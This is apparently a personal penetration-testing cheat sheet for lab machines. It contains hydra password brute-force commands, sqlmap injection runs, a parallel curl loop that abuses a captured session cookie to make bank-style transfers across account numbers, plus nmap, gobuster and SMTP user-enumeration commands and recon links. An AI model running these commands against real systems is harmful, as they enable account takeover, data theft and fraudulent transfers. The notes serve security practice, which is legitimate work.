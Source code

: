 ## Pentest

```sh
hydra -I -l 99 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
hydra -I -l 100 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
```

```sh
sqlmap http://10.10.178.141:5000 --tamper=space2comment --level 3 --risk 3 --data 'account_number=101+&password=hello'
```

```sh
sqlmap http://10.10.178.141:5000 --cookie="session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng" --tamper=space2comment --level 3 --risk 3 --data 'account_number=101&ammount=1'
```

```sh
send_req() {
  id="$1"
  curl -L -s 'http://10.10.178.141:5000/transfer' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: http://10.10.178.141:5000' \
    -H 'Connection: keep-alive' \
    -H 'Referer: http://10.10.178.141:5000/dashboard' \
    -H 'Cookie: session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "account_number=${id}&amount=1" | grep Success
}
export -f send_req

array=$(seq 99 112)

parallel send_req ::: "${array[@]}"
```

## nmap report

```sh
sudo grc nmap -v --reason -T4 -sT -F -oG  ${TARGET_IP}
sudo grc nmap -v --reason -T4 -sC -sV -F --version-intensity 9 -p8080 -oG ${TARGET_IP}
```

## Whatweb

```txt
http://10.10.178.141:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.4 Python/3.8.10], IP[10.10.178.141], Python[3.8.10], Werkzeug[3.0.4]
```

## TELNET scripting

```sh
#!/usr/bin/env bash

(
echo open 10.129.88.30 25
sleep 5
echo VRFY samuel
sleep 2
) | telnet
```

## Dir Enum

```sh
gobuster dir -u "http://jewel.uploadvulns.thm/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -x .phar,.php.phtm
```

## Passive OS fingerprinting

- [satori](https://github.com/xnih/satori/)
- [p0f](https://lcamtuf.coredump.cx/p0f3/)

## Mac Ages

- [mac ages](https://github.com/hdm/mac-ages)

### links

- [cvss calculator](https://www.first.org/cvss/calculator/3.1)
- [cyberchef](127.0.0.1:8081)
- [abuse.ch](https://abuse.ch)
- [urlscan](https://urlscan.io)

### Linux Privilege Escalation

- [netbiosx's checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [total oscp guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [payatu](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

- [linpeas](https://raw.githubusercontent.com/Cerbersec/scripts/refs/heads/master/linux/linpeas.sh)

### Search Engines

- [shodan](https://www.shodan.io/)
- [DNSdumpster](https://dnsdumpster.com/)
- [threatintelligenceplatform](https://threatintelligenceplatform.com/)
- [viewdnsinfo](https://viewdns.info/)
- [google_hacking_database](https://www.exploit-db.com/google-hacking-database)
- [censys](https://search.censys.io/)
- [robtex](https://www.robtex.com/)
- [whois](https://whois.domaintools.com/)
- [alienvalut](https://otx.alienvault.com/)
- [threatminer](https://www.threatminer.org/)
- [hybrid-analysis](https://www.hybrid-analysis.com/)

### Dorking

- [google](https://support.google.com/websearch/answer/2466433)
- [duckduckgo](https://duckduckgo.com/duckduckgo-help-pages/results/syntax/)
- [bing](https://support.microsoft.com/en-us/topic/advanced-search-options-b92e25f1-0085-4271-bdf9-14aaea720930)
- [shodan](https://github.com/lothos612/shodan)

